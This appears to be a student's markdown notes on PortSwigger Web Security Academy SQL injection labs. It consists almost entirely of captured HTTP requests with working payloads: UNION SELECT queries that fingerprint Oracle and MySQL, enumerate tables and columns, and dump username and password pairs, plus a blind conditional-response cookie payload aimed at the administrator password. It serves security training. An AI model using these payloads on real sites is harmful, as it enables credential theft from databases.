# SQLi

## Lab 3

**Lab: SQL injection attack, querying the database type and version on Oracle**

```bash
GET /filter?category=1'%20UNION%20SELECT%20banner,%20NULL%20FROM%20v$version-- HTTP/2
Host: 0a8d00fc03ff6afe806f12e2006600cb.web-security-academy.net
Select version from v$instance http/2: 
Select version from v$instance http/2: 
Cookie: session=Ofqx2jSJeI10QFPTjK526nQ3lqXk900k
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0a8d00fc03ff6afe806f12e2006600cb.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



# Lab 4

**Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

```bash
GET /filter?category='+UNION+SELECT+@@version,+NULL# HTTP/2
Host: 0aa200cb04127438802e268000bf007e.web-security-academy.net
Cookie: session=2j3qTbLfrm2imuxeMhUt8h0y8QPl40V6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0aa200cb04127438802e268000bf007e.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



## Lab 5

Extact table name

```bash
GET /filter?category='+UNION+SELECT+table_name,NULL+FROM+information_schema.tables-- HTTP/2
Host: 0ac6006c04cf971b81d6c55e00150092.web-security-academy.net
Cookie: session=oNkhBynOU0Yph58oO1HogQu31FoSCoRo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0ac6006c04cf971b81d6c55e00150092.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Extract Table

```bash
' UNION SELECT column_name,NULL FROM information_schema.columns where table_name ='users_mdruhj'--
```

```bash
GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+where+table_name+%3d'users_mdruhj'--+HTTP/2 HTTP/2
Host: 0ac6006c04cf971b81d6c55e00150092.web-security-academy.net
Cookie: session=oNkhBynOU0Yph58oO1HogQu31FoSCoRo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0ac6006c04cf971b81d6c55e00150092.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Extract Password

```sql
' UNION SELECT username_ydptrq,password_xlbvkp from users_mdruhj-- 
```

```bash
GET /filter?category='+UNION+SELECT+username_ydptrq,password_xlbvkp+from+users_mdruhj--+HTTP/2 HTTP/2
Host: 0ac6006c04cf971b81d6c55e00150092.web-security-academy.net
Cookie: session=oNkhBynOU0Yph58oO1HogQu31FoSCoRo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0ac6006c04cf971b81d6c55e00150092.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



## Lab 6

**Lab: SQL injection attack, listing the database contents on Oracle**

```sql
GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
Host: 0abe0005044e92ee80e808c6000a000f.web-security-academy.net
Cookie: session=vwexKpNDGDfonbetOyrSkg0JUJTslrwa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Referer: https://0abe0005044e92ee80e808c6000a000f.web-security-academy.net/
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



```sql
GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+where+table_name='USERS_DQLYRX'-- HTTP/2
Host: 0abe0005044e92ee80e808c6000a000f.web-security-academy.net
'users_dqlyrx'-- http/2: 
Cookie: session=vwexKpNDGDfonbetOyrSkg0JUJTslrwa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Referer: https://0abe0005044e92ee80e808c6000a000f.web-security-academy.net/
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



#### Dump Password

```sql
GET /filter?category='+UNION+SELECT+USERNAME_SXDJMA,PASSWORD_STLREA+FROM+USERS_DQLYRX-- HTTP/2
Host: 0abe0005044e92ee80e808c6000a000f.web-security-academy.net
'users_dqlyrx'-- http/2: 
Cookie: session=vwexKpNDGDfonbetOyrSkg0JUJTslrwa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Referer: https://0abe0005044e92ee80e808c6000a000f.web-security-academy.net/
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```





## Lab 7

**Lab: SQL injection UNION attack, determining the number of columns returned by the query**

```sql
GET /filter?category='+UNION+SELECT+nuLl,null,null-- HTTP/2
Host: 0a31006c0425fa7b83e4b1b90069003b.web-security-academy.net
Cookie: session=qQ8cbXv3cQ3o0OIEVhOvLi0TgbNtsuxH
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0a31006c0425fa7b83e4b1b90069003b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```





## Lab 8

**Lab: SQL injection UNION attack, finding a column containing text**

```sql
GET /filter?category='+UNION+SELECT+NULL,'FoHoFY',null-- HTTP/2
Host: 0ad500f703826d7c8093cce2003f0039.web-security-academy.net
Cookie: session=m0L0SG6mbLG0QH5bx9Tuqzve8fEYlLnI
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Referer: https://0ad500f703826d7c8093cce2003f0039.web-security-academy.net/filter?category=Corporate+gifts
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



## Lab 8

**Lab: SQL injection UNION attack, retrieving data from other tables**

```sql
GET /filter?category='+ORDER+BY+2-- HTTP/2
Host: 0a6400f0031147b28127074600b700fd.web-security-academy.net
Cookie: session=Bv6GshXBvzNMuZqKHDg9OdI1zq2CBj30
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0a6400f0031147b28127074600b700fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

#### Check the type of data = integer/char?

```sql
GET /filter?category='+UNION+SELECT+'HELLO','HELLO'-- HTTP/2
Host: 0a6400f0031147b28127074600b700fd.web-security-academy.net
Cookie: session=Bv6GshXBvzNMuZqKHDg9OdI1zq2CBj30
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0a6400f0031147b28127074600b700fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailer
```

```sql
GET /filter?category='+UNION+SELECT+USERNAME,PASSWORD+FROM+USERS-- HTTP/2
Host: 0a6400f0031147b28127074600b700fd.web-security-academy.net
Cookie: session=Bv6GshXBvzNMuZqKHDg9OdI1zq2CBj30
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0a6400f0031147b28127074600b700fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



## Lab 8

**Lab: SQL injection UNION attack, retrieving multiple values in a single column**

```sql
GET /filter?category='+union+select+1,'sdj,hf'-- HTTP/2
```

```sql
GET /filter?category='+union+select+1,username||password+from+users-- HTTP/2
Host: 0aea008804c87532802d8a6a00820023.web-security-academy.net
Cookie: session=25NeTZJLqRiRfRUQ7VRhQQtrqaEciLPe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Sec-Gpc: 1
Referer: https://0aea008804c87532802d8a6a00820023.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



```sql
GET /filter?category='+union+select+1,username%20||':'||password+from+users--
```





## Blind SQL

## Lab 9

## Blind SQL injection with conditional responses

```sql
GET /filter?category=Lifestyle HTTP/2
Host: 0a74007d031c73f382da52b0009a0060.web-security-academy.net
Cookie: TrackingId=4VD67dO4ag5UqEI3' AND LENGTH ((SELECT password FROM users WHERE username='administrator')) = §1§--; session=1ACAcZrqDOYlCum7ykDdZ04eoV8FmNRa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Referer: https://0a74007d031c73f382da52b0009a0060.web-security-academy.net/
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```



## Script

[BlindSQL.py](SQLi/BlindSQL.py)

